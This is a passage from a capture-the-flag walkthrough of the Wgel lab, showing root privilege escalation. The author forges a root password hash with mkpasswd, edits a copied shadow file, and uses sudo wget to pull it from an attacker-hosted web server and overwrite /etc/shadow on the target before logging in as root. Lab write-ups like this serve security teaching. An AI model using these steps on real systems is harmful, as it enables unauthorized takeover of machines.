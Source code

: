 We received the file ! Let's save this in a file and generate a new hash for user root : 
```
attacker@AttackBox:~/Wgel_CTF$ mkpasswd --method=SHA-512 --stdin
Mot de passe : test
$6$rG7Ke59zHaM7C5aI$jOZC/e8D40c3JAvU02gBJMraoZ.uvdDO1OOhd0B3D42OHOIPhsXcx9z2ft.8MFQ4fm3Ti3DhXGlh5lsKqV7.l1
```

Now, let's copy and paste this hash in the shadow file for user root :  
```
attacker@AttackBox:~/Wgel_CTF$ head shadow 

root:$6$rG7Ke59zHaM7C5aI$jOZC/e8D40c3JAvU02gBJMraoZ.uvdDO1OOhd0B3D42OHOIPhsXcx9z2ft.8MFQ4fm3Ti3DhXGlh5lsKqV7.l1:18195:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
...
...
```

Now, we just have to run the webserver again, but this time, we will download the shadow file on the target :  
```
jessie@CorpOne:~$ sudo wget http://10.14.32.60:8080/shadow -O /etc/shadow
--2023-01-16 18:31:37--  http://10.14.32.60:8080/shadow
Connecting to 10.14.32.60:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1378 (1,3K) [application/octet-stream]
Saving to: ‘/etc/shadow’

/etc/shadow                   100%[================================================>]   1,35K  --.-KB/s    in 0,001s  

2023-01-16 18:31:37 (928 KB/s) - ‘/etc/shadow’ saved [1378/1378]
```

Now, we should be able to login as root using the password for the hash we generated before (`test` for me) :  
```
jessie@CorpOne:~$ su root
Password: test
root@CorpOne:/home/jessie# whoami
root
root@CorpOne:/home/jessie#
```

And we are root ! Let's get the root flag now :  
```
root@CorpOne:/home/jessie# cd /root
root@CorpOne:~# ls
root_flag.txt
root@CorpOne:~# cat root_flag.txt 
******************************
```

